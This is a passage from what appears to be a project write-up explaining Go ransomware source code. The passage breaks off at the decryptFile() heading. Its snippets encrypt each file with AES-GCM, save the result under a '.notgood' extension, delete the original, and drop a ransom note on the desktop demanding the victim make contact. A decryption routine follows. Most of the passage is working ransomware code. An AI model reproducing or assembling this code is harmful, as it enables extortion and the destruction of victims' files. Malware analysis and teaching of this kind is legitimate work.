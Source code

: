   - **Read File Content:** The content of the file is read into memory.
  ```go
  fileBytes, _ := os.ReadFile(path)
  ```
  - **Encrypt Content:** The content is encrypted using the AES-GCM algorithm. The nonce is prepended to the encrypted data.
  ```go
  block, _ := aes.NewCipher([]byte(encryptionKey))
  aescgm, _ := cipher.NewGCM(block)
  encryptedData := aescgm.Seal(nil, nonce, fileBytes, nil)
  encryptedFileBytes := append(nonce, encryptedData...)
  ```
  - **Save Encrypted File:** The encrypted content is saved to a new file with the `.notgood` extension, and the original file is deleted.
  ```go
  _ = os.WriteFile(encryptedPath, encryptedFileBytes, filePermission)
  _ = os.Remove(path)
  ```
- **saveTXTWithNonce() Function:**

    This function creates a text file on the user’s desktop containing the nonce and instructions for decryption.
    ```go
    nonceHex := hex.EncodeToString(nonce)
    msg := fmt.Sprintf("All of your files have been encrypted. \n To unlock them contact me with your encryption code in this email@email.com \n Your encryption code is: <%v> ", nonceHex)
    os.WriteFile(decryptKeyPath, []byte(msg), filePermission)
    ```
### 4. Decryption Process
- **`decryptFiles()` Function:**

  This function drives the decryption process:

  - **Nonce Retrieval:** The program reads the nonce from the decryption_key.txt file created during encryption.

  ```go
  nonce := getNonceFromFile()
  if nonce == nil {
      fmt.Println("Failed")
      return
  }
  ```
  - **File Walkthrough:** The program then walks through the rootDir looking for files with the `.notgood` extension. These files are decrypted using the `decryptFile()` function.

    ```go
    _ = filepath.Walk(rootDir, func(path string, info os.FileInfo, err error) error {
        if info.IsDir() {
            return nil
        }
        extension := strings.ToLower(filepath.Ext(path))
        if extension == encryptedExtension {
            decryptPath := strings.TrimSuffix(path, encryptedExtension)
            decryptFile(path, decryptPath, nonce)
        }
        return nil
    })
    ```
- **decryptFile() Function:**
